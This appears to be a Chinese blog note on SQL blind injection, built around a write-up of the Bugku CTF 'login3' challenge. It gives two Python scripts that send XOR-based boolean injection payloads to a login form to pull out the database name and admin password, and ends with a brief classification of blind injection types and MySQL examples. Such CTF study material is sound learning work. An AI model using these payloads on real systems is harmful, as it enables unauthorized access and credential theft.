 # SQL盲注的技巧

一直在纠结到底是将文件存储在本地呢， 还是直接存在云端

直接保存在云端当然很方便快捷， 但是如果平台垮了， 所有的东东就没了



所以目前采取双备份的形式吧

## bugku login3

之前做bugkuctf的一道web题还没把思路总结下来



先分析脚本

```python
def databasere():
    resutlt=""
    for i in range(30):
        fla = 0
        for j in str_all:

            playlod="admin'^(ascii(mid(database()from({})))<>{})^0#".format(str(i),ord(j))
            data = {
                "username": playlod,
                "password": 123
            }
            s=r.post(url,data)
            #print(playlod)
            #print(s.text)
            
            if "error" in s.text:
                resutlt+=j
                print(resutlt)
            # if fla == 0:
            #     break
    print(resutlt)
```

这个是基于页面回显的信息， 因为只有admin这个用户是存在的

1.  admin ^ 字母 ^ 0  如果database()首字母是a， a！=97 返回为0，则用户名是存在的。 反之如果用户名不存在， 那么database首字母就不为a



另外一个爆破密码的思路也差不太多

代码如下：

```python
def password():
    resutlt=""
    for i in range(40):
        fla=0
        for j in str_all:
            playlod = "admin'^(ascii(mid((select(password)from(admin))from({})))<>{})^0#".format(str(i+1),ord(j))
            data = {
                "username": playlod,
                "password": 1111
            }
            s=r.post(url,data)
            print(playlod)
            if "error" in s.text:
                resutlt+=j
                fla=1
                print('**************************',resutlt)
        if fla==0:
            break
```



## 盲注的分类

大体上三种

```
Booleanbase
Timebase
Errorbase
```



### 布尔盲注



布尔盲注中用到的运算或者操作符可能有 ： `and` , `or` , `if` , `from`, `substring`, `^异或运算`等

```html
mysql> select 123 from dual where 1=1;
+-----+
| 123 |
+-----+
| 123 |
+-----+
1 row in set (0.00 sec)
mysql> select 123 from dual where 1=0;
Empty set (0.00 sec)
```

还有一个if的例子

```html
mysql> select 1 from te order by if(1,1,(select 1 union select 2)) limit 0,3;
+---+
| 1 |
+---+
| 1 |
| 1 |
| 1 |
+---+
3 rows in set (0.00 sec)
mysql> select 1 from te order by if(0,1,(select 1 union select 2)) limit 0,3;
ERROR 1242 (21000): Subquery returns more than 1 row
```





# 参考

[详解SQL盲注测试高级技巧](<https://www.freebuf.com/articles/web/30841.html>)

[浅谈BugkuCTF-writeup](<http://pupiles.com/Bugku-Web-writeup.html>)

